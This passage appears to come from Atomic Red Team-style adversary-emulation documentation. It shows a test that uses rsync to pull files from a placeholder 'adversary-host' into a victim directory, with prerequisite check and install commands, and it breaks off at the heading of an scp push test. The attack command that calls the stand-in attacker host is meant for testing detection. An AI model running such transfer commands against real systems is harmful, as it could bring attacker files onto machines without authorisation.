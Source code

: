 <br/>
<br/>

## Atomic Test #2 - rsync remote file copy (pull)
Utilize rsync to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 3180f7d5-52c0-4493-9ea0-e3431a84773f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Path of folder to copy | path | /tmp/adversary-rsync/|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive rsync | path | /tmp/victim-files|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}
```




#### Dependencies:  Run with `sh`!
##### Description: rsync must be installed on the machine
##### Check Prereq Commands:
```sh
if [ -x "$(command -v rsync)" ]; then exit 0; else exit 1; fi
```
##### Get Prereq Commands:
```sh
(pkg install -y rsync)||(sudo apt-get -y install rsync)
```




<br/>
<br/>

## Atomic Test #3 - scp remote file copy (push)
Utilize scp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS
